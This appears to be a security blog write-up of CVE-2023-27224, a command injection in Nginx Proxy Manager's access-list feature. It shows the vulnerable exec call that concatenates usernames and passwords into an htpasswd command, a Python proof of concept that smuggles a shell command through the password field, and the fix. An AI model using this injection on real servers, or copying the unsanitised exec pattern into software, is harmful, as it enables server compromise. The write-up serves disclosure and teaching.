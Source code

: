 ```yaml
---
title: CVE-2023-27224 (NginxProxyManager)
description: >-
  Arbitrary Code Execution in NginxProxyManager
author: Cronus
date: 2025-02-05 14:17:00
categories: [Security, 1-Day]
tags: [1-Day, NginxProxyManager]
pin: false
---
```




## [ Info ]
- Target : Nginx Proxy Manager
- Version : 2.9.19
- Category : Arbitrary Code Execution
## [ Build ]
```bash
docker run -p 8080:80 -p 8081:81 jc21/nginx-proxy-manager:2.9.19
```

## [ Product Overview ]

[Nginx Proxy Manager](https://github.com/NginxProxyManager/nginx-proxy-manager) which is based on NodeJS, is a open-source tool to simplify the management of Nginx's proxy, SSL, Access lists, and more. It lets user manage, control their site easier. For example, it provide the feature of controlling ACL with admin console, so user can easily create blacklist or whitelist by using UI.

## [ Vulnerable Summary ]

Aribitrary Code Execution via Access list feature in Nginx Proxy Manager <= 2.9.19

## [ Vulnerability Details ]

The vulnerability is in `backend/internal/access-list.js` which manages Access List. 

![[1.png|400]]
A user can define IPs to allow or deny, and define about authorization. 

```javascript
// backend/lib/utils.js
const exec = require('child_process').exec;

module.exports = {

	/**
	 * @param   {String} cmd
	 * @returns {Promise}
	 */
	exec: function (cmd) {
		return new Promise((resolve, reject) => {
			exec(cmd, function (err, stdout, /*stderr*/) {
				if (err && typeof err === 'object') {
					reject(err);
				} else {
					resolve(stdout.trim());
				}
			});
		});
	}
};

```

Nginx Proxy Manager defines a module that uses `child_process` in the `backend/lib/utils.js`. <u>The problem  is that the cmd parameter lacks any sanitization</u>. And this module is used in `backend/internal/access-list.js` .

```javascript
// backend/internal/access-list.js
const utils = require('../lib/utils');
			...
			
	/**
	 * @param   {Object}  list
	 * @param   {Integer} list.id
	 * @param   {String}  list.name
	 * @param   {Array}   list.items
	 * @returns {Promise}
	 */
	build: (list) => {
		logger.info('Building Access file #' + list.id + ' for: ' + list.name);

		return new Promise((resolve, reject) => {
			let htpasswd_file = internalAccessList.getFilename(list);

			// 1. remove any existing access file
			try {
				fs.unlinkSync(htpasswd_file);
			} catch (err) {
				// do nothing
			}

			// 2. create empty access file
			try {
				fs.writeFileSync(htpasswd_file, '', {encoding: 'utf8'});
				resolve(htpasswd_file);
			} catch (err) {
				reject(err);
			}
		})
			.then((htpasswd_file) => {
				// 3. generate password for each user
				if (list.items.length) {
					return new Promise((resolve, reject) => {
						batchflow(list.items).sequential()
							.each((i, item, next) => {
								if (typeof item.password !== 'undefined' && item.password.length) {
									logger.info('Adding: ' + item.username);

									// ⬇ Vulnerable Code
									utils.exec('/usr/bin/htpasswd -b "' + htpasswd_file + '" "' + item.username + '" "' + item.password + '"')
										.then((/*result*/) => {
											next();
										})
										.catch((err) => {
											logger.error(err);
											next(err);
										});
								}
							})
							.error((err) => {
								logger.error(err);
								reject(err);
							})
							.end((results) => {
								logger.success('Built Access file #' + list.id + ' for: ' + list.name);
								resolve(results);
							});
					});
				}
			});
	}
};

```

The `build: (list)` function calls `utils.exec()` when Nginx Proxy Manager creates or updates Access List.  If attacker abuse this feature, command injection can allow arbitrary code execution, going against the original purpose of the code.

## [ Exploit Conditions ]

The vulnerability can be exploited by an authenticated attacker who has permissions of making Access List. 

## [ Proof-of-Concept ]

```python
import requests

#payload = input("Enter the payload: ")
payload = '"; id > /tmp/pwned.txt; echo "'

url = "http://localhost:12001/api/nginx/access-lists"
header = {"Authorization": "[Admin Token]"} # Modify Here

data = {"name":"Test","satisfy_any":False,"pass_auth":False,"items":[{"username":"Test_username","password":f"Test_password{payload}"}],"clients":[{"address":"1.2.3.4","directive":"allow"}]}

res = requests.post(url, headers=header, json=data)

print(res.status_code)
```

![[2.png|500]]

## [ Mitigation ]

The code was modified to ensure that user input is passed as an array instead of being directly executed as part of the command. This change makes malicious commands get interpreted as regular strings. In practice, if a malicious command is injected, a 403 error is returned.

![[3.png]]
